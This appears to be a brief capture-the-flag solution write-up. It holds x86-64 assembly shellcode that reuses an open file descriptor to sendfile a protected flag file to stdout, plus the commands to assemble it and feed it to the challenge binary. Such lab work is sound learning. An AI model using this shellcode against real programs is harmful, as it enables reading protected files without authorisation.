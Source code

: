# Solution
reuse open flag file descriptor(3) to sendfile the flag:

```s
.global _start
_start:
.intel_syntax noprefix
    #sendfile(1, 3, 0 , 1000)
    mov rdi, 1
    mov rsi, 3
    mov rdx, 0
    mov r10, 1000
    mov rax, 0x28
    syscall

    # exit_group(42)
    mov edi, 42
    mov al, 0xe7
    syscall

.flag:
    .string "flag"
```

Run the exploit
```sh
gcc shellcode.s -nostartfiles
objcopy --dump-section .text=raw a.out
cat raw | ./bin
```